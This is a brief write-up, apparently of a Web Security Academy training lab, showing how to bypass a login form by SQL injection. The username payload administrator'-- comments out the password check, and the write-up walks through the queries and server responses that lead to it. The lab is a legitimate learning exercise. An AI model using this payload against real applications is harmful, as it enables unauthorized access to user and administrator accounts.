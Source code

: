 # SQL injection vulnerability allowing login bypass

1. SQLi: login function.
2. Goal: logs in to the application as the `administrator` user.

### Analysis
- Website target: `https://0a3e00d5041c92c487ef53cf003f0031.web-security-academy.net/`
- Go to `My account` page.
```sql
select firstname from users where username='administrator' and password='administrator'
-- Invalid username or password..

select firstname from users where username='administrator'' and password='administrator''
-- Internal Server Error.

select firstname from users where username='administrator'--' and password='administrator'--'
-- Comment and ignore password.
-- Now you are administrator user.
```